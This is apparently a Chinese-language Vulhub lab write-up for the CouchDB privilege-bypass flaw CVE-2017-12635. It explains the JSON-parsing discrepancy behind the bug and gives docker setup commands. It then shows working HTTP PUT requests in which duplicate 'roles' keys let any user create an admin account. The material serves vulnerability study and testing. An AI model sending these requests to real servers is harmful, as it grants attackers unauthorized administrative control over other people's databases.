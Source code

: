 # Couchdb 垂直权限绕过漏洞（CVE-2017-12635）

Apache CouchDB是一个开源数据库，专注于易用性和成为"完全拥抱web的数据库"。它是一个使用JSON作为存储格式，JavaScript作为查询语言，MapReduce和HTTP作为API的NoSQL数据库。应用广泛，如BBC用在其动态内容展示平台，Credit Suisse用在其内部的商品部门的市场框架，Meebo，用在其社交平台（web和应用程序）。

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12635是由于Erlang和JavaScript对JSON解析方式的不同，导致语句执行产生差异性导致的。这个漏洞可以让任意用户创建管理员，属于垂直权限绕过漏洞。

影响版本：小于 1.7.0 以及 小于 2.1.1

参考链接：

 - http://bobao.360.cn/learning/detail/4716.html
 - https://justi.cz/security/2017/11/14/couchdb-rce-npm.html

## 测试环境

编译及启动环境：

```
docker compose build
docker compose up -d
```

环境启动后，访问`http://your-ip:5984/_utils/`即可看到一个web页面，说明Couchdb已成功启动。但我们不知道密码，无法登陆。

## 漏洞复现

首先，发送如下数据包：

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 90

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "password": "vulhub"
}
```

可见，返回403错误：`{"error":"forbidden","reason":"Only _admin may set roles"}`，只有管理员才能设置Role角色：

![](1.png)

发送包含两个roles的数据包，即可绕过限制：

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 108

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "roles": [],
  "password": "vulhub"
}
```

成功创建管理员，账户密码均为`vulhub`：

![](2.png)

再次访问`http://your-ip:5984/_utils/`，输入账户密码`vulhub`，可以成功登录：

![](3.png)

